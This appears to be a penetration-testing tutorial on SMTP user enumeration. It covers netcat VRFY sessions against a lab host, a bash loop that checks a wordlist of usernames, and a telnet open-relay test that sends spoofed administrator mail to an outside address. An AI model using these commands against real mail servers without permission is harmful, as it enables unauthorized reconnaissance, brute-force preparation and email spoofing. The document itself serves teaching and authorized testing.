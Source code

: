 # SMTP Mail User Enumeration
In this module we will learn how to attempt to enumerate users from a target system that is running Dovecot or Exim, or some other form of mail server.
## User List
When using **any** type of brute force attack, it is VERY important to enumerate as much as possible to build the best word list, in our case is a user list. In most cases, at least, add the enumerated hostname as a user. Look for weblogs and anything else that may contain reused UIDs, email addresses, or more.
### Using Netcat
To use Netcat to connect to a mail server simply do:

`root@kali:~# nc (TARGET IP ADDRESS) 25`

Next, we can use some helpful commands that could tell us more about the system. In this case, we wuse `VRFY`

```
wnl8:/pwnt/smtp# nc 192.168.161.129 25
220 vulnix ESMTP Postfix (Ubuntu)
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY dovecot
252 2.0.0 dovecot
VRFY nonexistentuser
550 5.1.1 <nonexistentuser>: Recipient address rejected: User unknown in local recipient table
^C
wnl8:/pwnt/smtp#
```

As you can see, when a valid user is identified by the mail server via the `VRFY` command, it returned `252 2.0.0 (USERNAME)` and when an invalid user was tested via `VRFY` the service returned `550 5.1.1 (USERNAME)`

### SMTP User Enumeration Automation
We can easily script this process by echoing the VRFY command directly into a netcat connection command for each name in a word list against the target server as so,
```
#!/bin/bash
while read user;
 do
  echo VRFY $user | nc -nv -w (TARGET IP ADDRESS) (TARGET SMTP PORT) 2>/dev/null | egrep "^252"
 done
< /path/to/usernames.txt
```
## SMTP EMAIL RELAY TEST
If you can connect to the email server via telnet, you can test to see if we can send email via the server. Usually nmap will let us know whether or not the email server is a "relay" server with a message like,
```
25/tcp open  smtp    syn-ack ttl 55
| smtp-open-relay: Server is an open relay (13/16 tests)
|  MAIL FROM:<> -> RCPT TO:<relaytest@nmap.scanme.org>
|  MAIL FROM:<antispam@nmap.scanme.org> -> RCPT TO:<relaytest@nmap.scanme.org>
```
I could not get the NSE script to work for this (almost ever) so I found that we can test the service manually like so,
```
root@demon-2.4.4:~/# telnet (TARGET IP ADDRESS) 25
Trying (TARGET IP ADDRESS)...
Connected to (TARGET IP ADDRESS).
Escape character is '^]'.
220 *********************************************************************************
EHLO (TARGET DOMAIN).com
250-(TARGET SUBDOMAIN).(TARGET DOMAIN).com Hello (TARGET DOMAIN).com [(YOUR IP ADDRESS)], pleased to meet you
250-STARTTLS
250-PIPELINING
250-8BITMIME
250 XXXA
MAIL FROM:<administrator@(TARGET DOMAIN).com>
250 Sender <administrator@(TARGET DOMAIN).com> OK
RCPT TO:<(YOUR EMAIL ADDRESS)@gmail.com> NOTIFY=success,failure
250 Recipient <(YOUR EMAIL ADDRESS)@gmail.com> OK
DATA    
354 Start mail input; end with <CRLF>.<CRLF>
Subject:This is a test

This is a test email.
.
250 Ok: queued as mailFwDDga
QUIT
221 emailarchiver.(TARGET DOMAIN).com Goodbye (TARGET DOMAIN).com, closing connection
Connection closed by foreign host.
```
